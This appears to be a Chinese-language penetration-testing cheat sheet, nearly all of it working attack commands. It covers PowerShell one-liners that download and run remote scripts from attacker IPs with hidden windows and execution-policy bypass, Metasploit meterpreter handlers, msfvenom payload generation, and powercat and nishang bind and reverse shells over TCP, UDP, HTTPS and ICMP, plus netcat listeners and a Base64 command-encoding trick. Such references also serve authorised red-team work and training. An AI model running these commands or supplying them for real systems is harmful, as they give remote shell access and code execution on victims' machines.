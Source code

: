   #### MSF+Powershell
	反弹MSF
	靶机
	PS >IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.100/powersploit/CodeExecution/Invoke-Shellcode.ps1') 
	PS >Invoke-Shellcode -payload windows/meterpreter/reverse_http -lhost 192.168.0.100 -lport 6666 -force
	攻击机：
	>use exploit/multi/handler
	>set payload windows/x64/meterpreter/reverse_ https
	>run
	或
	>msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.0.100 LPORT=4444 -f powershell -o /var/www/html/ps
	>IEX(New-Object Net.WebClient).DownloadString("http://192.168.0.100/powersploit/CodeExecution/Invoke-Shellcode.ps1")
	>IEX(New-Object Net.WebClient).DownloadString("http://192.168.0.100/ps")
	>Invoke-Shellcode -Shellcode ($buf)
	或
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 -f psh-reflection >/var/www/html/a.ps1
	>powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.101/a.ps1')"
  #### Powercat
	>powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
	正向连接
	靶机:powercat -l -p 8080 -e cmd.exe –v
	攻击机:nc 192.168.0.1 8080 –vv
	反向连接：
	攻击机：nc –l –p 8080 –vv
	靶机:powercat –c 192.168.0.1 –p 8080 –v –e cmd.exe
	远程执行
	>powershell -nop -w hidden -ep bypass "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.0.107/ps/powercat/powercat.ps1'); powercat -c 192.168.0.107 -p 12345 -v -e cmd.exe"
	正向连接
	靶机:powercat -l -p 8080 -e cmd.exe -v
	攻击机:nc 192.168.0.1 8080 -vv
	反向连接：
	攻击机：nc -l -p 8080 -vv
	靶机:powercat -c 192.168.0.1 -p 8080 -v -e cmd.exe
![image](img/207.png)
  #### Nishang
  ##### Bind shell
	靶机：
	>powershell -nop -w hidden -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/nishang/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Bind -Port 12138"
	攻击机：
	>nc 靶机IP 12138
  ##### 反向shell
	攻击机：
	>nc -vnlp 9999
	靶机：
	>powershell -nop -w hidden -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/nishang/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 攻击机IP -port 9999"
  ##### UDP反向shell
	攻击机：
	>nc -lvup 12138
	靶机：
	>powershell -nop -w hidden -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/nishang/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 攻击机IP -port 12138"
  ##### HTTPS
	攻击机：
	>powershell -nop -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/nishang/Shells/Invoke-PoshRatHttps.ps1'); Invoke-PoshRatHttps -IPAddress 192.168.0.98 -Port 8080 -SSLPort 443"  IP地址是本机IP
![image](img/208.png)

	靶机：
	>powershell -w hidden -nop -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.98:8080/connect')
![image](img/209.png)
  ##### ICMP
	攻击机IP:108
	靶机IP:100
	https://github.com/inquisb/icmpsh
	靶机执行
	>powershell -nop -ep bypass "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.108/ps/nishang/Shells/Invoke-PowerShellIcmp.ps1');Invoke-PowerShellIcmp 192.168.0.108
![image](img/210.png)

	攻击机执行，开启相应ICMP ECHO请求
	>sysctl -w net.ipv4.icmp_echo_ignore_all=1
	>./icmpsh_m.py 192.168.0.108 192.168.0.100
![image](img/211.png)
  #### Base64
	>Powershell "$string="net user";[convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($string))"